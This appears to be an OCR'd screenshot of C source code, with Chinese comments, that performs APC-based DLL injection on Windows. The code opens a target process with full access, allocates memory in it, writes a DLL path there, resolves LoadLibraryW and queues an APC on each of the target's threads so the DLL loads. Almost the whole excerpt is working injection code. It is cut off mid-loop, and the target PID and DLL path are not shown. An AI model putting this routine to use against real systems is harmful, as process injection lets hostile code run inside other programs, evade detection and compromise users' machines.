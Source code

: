 ```c
                break;
            }
            pThreadIdList[dwThreadIdListLength++] = th32.th32ThreadID;
        }
        // 遇到的任何进程的下一个线程的信息
        bRet = Thread32Next(hThreadSnap, &th32);
    }

    *pThreadIdListLength = dwThreadIdListLength;
    *ppThreadIdList = pThreadIdList;

    return TRUE;
}


int main()
{
	size_t dwsize = (_tcslen(dllpath) + 1) * sizeof(TCHAR);
	//size_t dwsize = (strlen(dllpath) + 1); //* sizeof(TCHAR);

	// 获取目标进程的句柄，采用打开现有进程的形式
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notePID);

	// 在目标进程中开辟内存空间，用来存放注入的dll的地址
	LPVOID pRemotebuf = VirtualAllocEx(hProcess, NULL, dwsize, MEM_COMMIT, PAGE_READWRITE);
	printf("[+] VirtualAlloc sucess addr = %p\n", pRemotebuf);

	// 向开辟出来的地址写入dll路径
	WriteProcessMemory(hProcess, pRemotebuf, dllpath, dwsize, NULL);
	printf("[+] WriteProcessMemory sucess write dll path to target memroy \n");

	/*
	* 获取loadlibrary的地址。两种方法
	* 1、直接在本程序获得（在Windows中共享库的地址是一定的）
	* 2、利用PEB计算目标程序的kerneldll地址，复杂但是适合远程
	*/
	HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	//HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	LPTHREAD_START_ROUTINE pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMOD, "LoadLibraryW");
	printf("[+] GetProcAddress sucess pthreadproc = %p\n", pThreadProc);


	/*  执行dll */
    // 先获得目标进程中的所有线程
    LPDWORD pThreadIdList = NULL;
    DWORD dwThread_ListLength = 0;
    GetProcessThreadList(&pThreadIdList, &dwThread_ListLength);

    // 遍历线程，得机会注入APC
    DWORD fail = 0;
    for (int i = dwThread_ListLength - 1; i >= 0; i--)
    {
        // 打开线程
        HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, pThreadIdList[i]);
        if (hThread)
        {
            // 插入APC, 因为有条件，所以这里不一定都会成功，所以要进行错误准备
            if (!QueueUserAPC((PAPCFUNC)pThreadProc, hThread, (ULONG_PTR)pRemotebuf))
            {
                fail++;
            }
            // 关闭线程句柄
```